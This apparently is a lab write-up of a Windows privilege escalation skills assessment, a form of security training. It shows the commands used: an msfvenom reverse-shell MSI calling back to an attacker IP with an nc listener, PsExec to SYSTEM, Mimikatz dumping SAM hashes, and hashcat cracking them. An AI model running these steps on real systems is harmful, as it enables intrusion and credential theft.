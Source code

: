 # Windows Privilege Escalation Skills Assessment - Part II

## Introduction
In this blog post, I’ll walk you through a real-world style Windows privilege escalation engagement I performed for the INLANEFREIGHT organization. The goal was to assess the security of their Windows 10 gold image used by over 1,200 employees. The company’s CISO was particularly concerned about local privilege escalation risks, especially since users don’t have local admin rights by default.

The challenge: Gain local admin or SYSTEM privileges starting from a standard user account with no internet access and disabled Windows Defender.

## Initial Access and Enumeration
I connected to the target machine using Remote Desktop Protocol (RDP) with the provided standard user credentials. The first task was to look for any traces of `iamtheadministrator` credentials or weak security configurations on the host.

To find any mention of “administrator” across all files, I ran:
```bash
findstr /sin /i "administrator" * > C:\Users\htb-student\Desktop\result.txt
```
**Explanation:**

`/s` searches subdirectories

`/i` ignores case

`/n` shows line numbers

The output is redirected to `result.txt` to handle long output better.

## Analyzing the Result
Opening the result.txt file on the desktop, I searched for the username iamtheadministrator. I found it inside a Windows unattended installation file:
```bash
C:\Windows\Panther\unattend.xml
```
![image](https://github.com/user-attachments/assets/e4f97df2-4283-4a22-a46b-fd4643888efd)

Reviewing this XML file revealed a cleartext administrator password.

## Preparing a Reverse Shell Payload
The next step was to escalate privileges by executing a reverse shell as administrator. Since the host has no internet access, I needed to generate a payload locally and transfer it.

I used msfvenom to create a reverse shell MSI installer:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.45 LPORT=9443 -f msi -o shell.msi
```
![image](https://github.com/user-attachments/assets/a1309dc4-d805-4335-998f-7d333e45db85)

## Starting a Listener and Executing the Payload
I started a Netcat listener on my attacking machine:
```bash
nc -lvnp 9443
```
Then, I transferred `shell.msi` to the Windows host using shared folder and executed it.

![image](https://github.com/user-attachments/assets/135d5aa0-cfd4-44b3-853a-4118500163e3)

## Gaining Administrator Reverse Shell & Capturing the flag
After running the MSI, I received a reverse shell connection with administrator privileges.

Navigating to the Administrator’s desktop, I located and read the flag file:
```bash
type C:\Users\Administrator\Desktop\flag.txt
```

## Extracting NTLM Hashes for Disabled Local Admin Accounts
I discovered a disabled local admin user named `wksadmin`. To check for credential reuse risks, I needed to dump NTLM hashes.

However, running Mimikatz required SeDebugPrivilege, which was missing initially.

To elevate privileges properly, I transferred PsExec to the machine and ran:
```bash
psexec.exe -i -s cmd.exe -accepteula
```
![image](https://github.com/user-attachments/assets/8c411a79-bd92-4708-adc6-4204d15c5635)

This gave me a SYSTEM-level command prompt where Mimikatz could run effectively.

## Dumping NTLM Hashes Using Mimikatz
From the SYSTEM prompt, I ran `Mimikatz`:
```bash
privilege::debug
token::elevate
lsadump::sam
```

![image](https://github.com/user-attachments/assets/2f86b6b1-0832-4fb7-bd6a-debe844792d5)

## Cracking the Hash Offline Using Hashcat
I saved the hash in a file `hash.txt` and used hashcat with the `rockyou.txt` wordlist:
```bash
hashcat -m 1000 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```
After cracking, the cleartext password was revealed.
